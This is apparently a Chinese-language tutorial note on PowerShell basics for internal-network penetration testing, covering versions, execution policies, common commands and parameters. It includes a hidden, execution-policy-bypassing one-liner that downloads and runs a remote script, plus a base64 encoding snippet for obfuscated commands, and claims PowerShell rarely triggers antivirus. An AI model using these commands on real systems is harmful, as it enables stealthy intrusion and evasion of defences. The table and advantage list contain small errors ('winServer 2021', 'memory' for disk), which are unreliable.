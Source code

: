 # Windows Powershell 基础

**可以把PowerShell 当作是CMD的扩展，它可以执行一些脚本文件，极大的便利了内网渗透**

**优点：**

- 在Windows 7 以上的版本默认安装
- 脚本可以在内存中运行，无需写入内存
- 几乎不会触发杀毒软件
- 可以远程执行
- 目前很多工具多是基于PowerShell开发的
- 使Windows脚本执行变得更加容易
- `cmd.exe`通常会被阻止，但是`PowerShell`的运行通常不会被阻止

- 可用于管理活跃目录

**Windows版本对应的版本：**

| win版本                  | PowerShell版本 | 是否可以升级 |
| ------------------------ | -------------- | ------------ |
| win7/winServer 2008      | 2.0            | 3.0 / 4.0    |
| win8 / winServer 2021    | 3.0            | 4.0          |
| win8.1 / winServer2012R2 | 4.0            | X            |

- `Get-Host` 或者 `$PSVersionTable.PSVERSION` 查看版本

![image-20220330095144552](https://husins.oss-cn-beijing.aliyuncs.com/image-20220330095144552.png)

![image-20220330095234964](https://husins.oss-cn-beijing.aliyuncs.com/image-20220330095234964.png)

## 基本概念

- `Powershell`脚本文件的后缀是`.ps1`

## 执行策略

为了防止恶意脚本执行，提供了执行策略，默认策略是"不能运行"

- 使用`Get-ExecutionPolicy`查看执行策略

  - `Restricted`：脚本不能执行（默认设置）

  - `RemoteSigned:`在本地创建的脚本可以运行，网上下载的脚本不能运行（拥有数字签名的证书除外）

  - `AllSigned:` 仅当脚本有受信任的发布者签名时才能运行
  - `Unrestricted:`允许所有脚本运行

  ![image-20220330100120858](https://husins.oss-cn-beijing.aliyuncs.com/image-20220330100120858.png)

- 使用`Set-ExecutionPolicy <policy name>` 设置执行策略（需要管理员权限）

## 常用命令

 ```powershell
 New-Item <目录名> -type directory # 新建目录
 New-Item <文件名> -type file      # 新建文件
 Remove-item <目录名/文件名>        # 删除目录或者文件
 Get-content <文件名>              # 读取文件内容
 set-content <文件名> -value "文件内容" # 覆盖写入文件内容
 add-content <文件名> -value "文件内容" # 追加写入文件内容
 clear-content <文件名>            # 清空文件内容
 $host.version  # 查看powershell版本
 set-location <绝对路径> # 设置路径
 powershell  # cmd切换为powershell
 powershell.exe -exec bypass -file .\1.ps1  # 绕过安全检测执行ps1文件
 powershell.exe -exec bypass -command "&{import-module <被引入模块的绝对路径>;<引入模块的执行名称>}"     # 在目标本地加载并执行
 powershell.exe -exec bypass -w hidden -Nop -Noni(New-Object Net.webClient).DownloadString("<远程脚本加载地址>"); #远程导入ps1脚本，绕过本地权限并执行，后面加执行参数就行了。
 ```

## 常用参数

```powershell
-exec bypass(-ExecutionPolicy Bypass): 绕过安全执行策略。
-W hidden (-WindowStyle Hidden): 隐藏窗口
-Noni(-NonInteractive): 非交互式。powershell不为用户提供交互式提示
-NoP(-NoProfile): Powershell控制台不加载当前用户的配置文件
-noexit：执行之后不退出shell，这个参数在使用键盘记录等脚本非常重要
-Nologo：启动不显示版权标志的Powershell
-enc: 解码base64,直接用在线的base64进行编码不可以，推荐使用下面的脚本，编码
```

```powershell
$fileContent = "<需要编码的内容>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
$encodedCommand = [Convert]::ToBase64String($bytes)
echo $encodedCommand
```





























